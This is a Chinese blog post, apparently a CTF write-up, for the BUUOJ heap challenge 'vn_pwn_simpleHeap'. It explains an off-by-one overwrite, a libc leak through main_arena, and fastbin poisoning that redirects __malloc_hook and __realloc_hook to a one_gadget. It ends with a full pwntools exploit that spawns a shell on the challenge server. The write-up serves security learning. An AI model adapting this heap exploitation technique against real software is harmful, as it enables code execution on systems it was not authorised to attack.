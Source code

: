 ```yaml
---
toc: true
toc_sticky: true
title:  "Buuoj冲分过程-PWN/HEAP-vn_pwn_simpleHeap"
date:   2021-01-02 21:15:38 +0800
categories:
  - blog
tags:
  - pwn
  - glibc
  - heap
---
```


# 🍺明けましておめでとうございます😆

sub_C39 函数有一个 off-by-one 漏洞，会从stdin读取、写入多一个字节。根据堆内存的chunk结构，我们可以覆盖下一个chunk `mchunk_size`的最后一个字节并修改chunk的大小，然后利用chunk的分裂特点、分配得到重叠的chunk并泄露出 `main_arena.top` 的地址；进一步利用重叠的chunk修改 fastbin并在 main_arena 上方构造大小为0X7F的chunk，最终实现写入任意地址到 `__malloc_hook` 。

## Leak libc

0. 先使得大于 `global_max_fast` 的 chunk 覆盖另一个正在使用的小 chunk；
1. 释放大chunk ，使其进入 unsorted 并被写入 `main_arena.top`的地址；
2. 申请内存使得大chunk发生分裂，`main_arena.top` 的地址写入到小chunk；
3. 输出小chunk并泄露`main_arena.top`

## Gadget

```
ubuntu@VM-0-5-ubuntu:~/project/kayoch1n.github.io/buuoj$ one_gadget /lib/x86_64-linux-gnu/libc.so.6 0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

## Issues

这道题不能把 gadget 直接写入到 `__malloc_hook`：在ubuntu16.04 x86_64 上调试发现，rsp+0x30，rsp+0x50，rsp+0x70处的值都不为0，栈的情况并不能满足任意一个 gadget 的要求；但是通过查阅谷歌了解到另一种方法，这种方法在构造chunk的时候，将 `__realloc_hook` 覆盖为 gadget 的地址，将 `__malloc_hook` 覆盖为一个在 `__libc_realloc` 内的地址 ；触发getshell的调用路径变为 `malloc`->`__libc_malloc`->`__malloc_hook`(address in `__libc_realloc`)->`__realloc_hook`(gadget)。这个方法通过增加调用过程（call压入RA以及function prologue）、加上 `__libc_realloc` 内的push等指令（见下）调整栈顶，使栈上的数据尽量满足gadget的要求。

```
(gdb) disas __libc_realloc
Dump of assembler code for function __GI___libc_realloc:
   0x00007f6b07bc7710 <+0>:     push   %r15       # 
   0x00007f6b07bc7712 <+2>:     push   %r14       #
   0x00007f6b07bc7714 <+4>:     push   %r13       #
   0x00007f6b07bc7716 <+6>:     push   %r12       #
   0x00007f6b07bc7718 <+8>:     mov    %rsi,%r12  #
   0x00007f6b07bc771b <+11>:    push   %rbp       #
   0x00007f6b07bc771c <+12>:    push   %rbx       #
   0x00007f6b07bc771d <+13>:    mov    %rdi,%rbx  #
   0x00007f6b07bc7720 <+16>:    sub    $0x38,%rsp # 以上指令调整栈顶
   0x00007f6b07bc7724 <+20>:    mov    0x33f8a5(%rip),%rax        # 0x7f6b07f06fd0
   0x00007f6b07bc772b <+27>:    mov    (%rax),%rax
   0x00007f6b07bc772e <+30>:    test   %rax,%rax
   0x00007f6b07bc7731 <+33>:    jne    0x7f6b07bc7958 <__GI___libc_realloc+584>
...
   0x00007f6b07bc7958 <+584>:   mov    0x68(%rsp),%rdx
   0x00007f6b07bc795d <+589>:   callq  *%rax      # 触发getshell
...
```

上述指令来自本地libc.so.6；事实上该指令片段和题目提供的libc-2.23.so的指令内容是一致的，只是偏移有差别。本地调试给 `__libc_realloc` 打上断点，检查此时栈顶的结构：

```
(gdb) x/32gx $rsp
0x7ffc3042aa68: 0x000055f11f8d3b71      0x000055f11f8d38e0 # sub    $0x38,%rsp 
0x7ffc3042aa78: 0x0000002000000006      0x00007ffc3042aaa0 #
0x7ffc3042aa88: 0x000055f11f8d3f86      0x00007ffc3042ab80 # 
0x7ffc3042aa98: 0x0000000100000000      0x000055f11f8d3fd0 #
0x7ffc3042aaa8: 0x00007f6b07b63840(rbx) 0x0000000000000000(rbp)
0x7ffc3042aab8: 0x00007ffc3042ab88(r12) 0x0000000108132ca0(r13)
0x7ffc3042aac8: 0x000055f11f8d3f0a(r14) 0x0000000000000000(r15)
0x7ffc3042aad8: 0x14df0f89e95ddc50      0x000055f11f8d38e0 
0x7ffc3042aae8: 0x00007ffc3042ab80      0x0000000000000000
0x7ffc3042aaf8: 0x0000000000000000      0x40c55016c39ddc50
0x7ffc3042ab08: 0x41eb3ffff90ddc50      0x0000000000000000
0x7ffc3042ab18: 0x0000000000000000      0x0000000000000000 # +0x50
0x7ffc3042ab28: 0x00007ffc3042ab98      0x00007f6b08134168 
0x7ffc3042ab38: 0x00007f6b07f1d80b      0x0000000000000000 # +0x70
0x7ffc3042ab48: 0x0000000000000000      0x000055f11f8d38e0
0x7ffc3042ab58: 0x00007ffc3042ab80      0x0000000000000000
```

如果使用 `__libc_realloc` 覆盖 `__malloc_hook`，同样无法满足任意一个gadget的要求；设想不借助push以及sub指令下的栈结构，rsp+0x50及rsp+0x70都可以满足；因此选择使用 0xf0364(0xf02a4) 作为gadget，用 __libc_realloc+20 处的地址覆盖 __malloc_hook。本地可以成功getshell，但是远程打不通；因此尝试调整gadget，选择使用 0xf1207(0xf1147)，ok，顺利打通。

## Payload

```python
#!/usr/bin/python3.6
from pwn import *

filename = './vn_pwn_simpleHeap'
# p = process(filename)
p = remote('node3.buuoj.cn', 25658)
# libc = ELF('/home/ubuntu/glibc-2.23/lib/libc-2.23.so')
libc = ELF('./libc/ubuntu_16_x86_64_libc-2.23.so')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')


def Add(content, size=None):
    p.sendlineafter(b'choice: ', b'1')
    p.sendlineafter(b'size?', bytes(f'{size or len(content)}', encoding='utf8'))
    p.sendlineafter(b'content:', content)


def Edit(index, content):
    p.sendlineafter(b'choice: ', b'2')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))
    p.sendlineafter(b'content:', content)


def Show(index):
    p.sendlineafter(b'choice: ', b'3')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))


def Delete(index):
    p.sendlineafter(b'choice: ', b'4')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))


def Exit():
    p.sendlineafter(b'choice: ', b'5')

Add(b'0', 0x28)   # 0
Add(b'1', 0x68)   # 1
Add(b'2', 0x68)   # 2
Add(b'3', 0x20)   # 3
payload = b'\x00'*0x28 +b'\xe1'
Edit(0,payload)   # 修改下一个chunk的大小
Delete(1)

Add(b'11', 0x68,)  # 1
Show(2)

leaked = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
main_arena = leaked - 88
realloc_hook = main_arena - 0x18
libc_base = realloc_hook - libc.sym['__realloc_hook']

# one_gadgets = [0xf0364]
one_gadgets = [0xf1147, 0xf02a4]

realloc = libc_base + libc.sym['realloc']
log.success(f'&main_arena: {hex(main_arena)}, &realloc_hook: {hex(realloc_hook)},&realloc: {hex(realloc)}, &libc_base: {hex(libc_base)}')

Add(b'i4and2infact', 0x60)  # 4 and 2
Delete(2)
fake_chunk = main_arena - 0x33
payload = p64(fake_chunk)
Edit(4, payload)
#p.interactive()
Add(b'5', 0x60)
gadget = one_gadgets[0]+libc_base
log.success(f'gadget: {hex(gadget)}')

Add(b'\x00' * 11 + p64(gadget) + p64(realloc+20), 0x60)

p.sendlineafter(b'choice: ', b'1')
p.sendlineafter(b'size?', b'32')
p.interactive()
```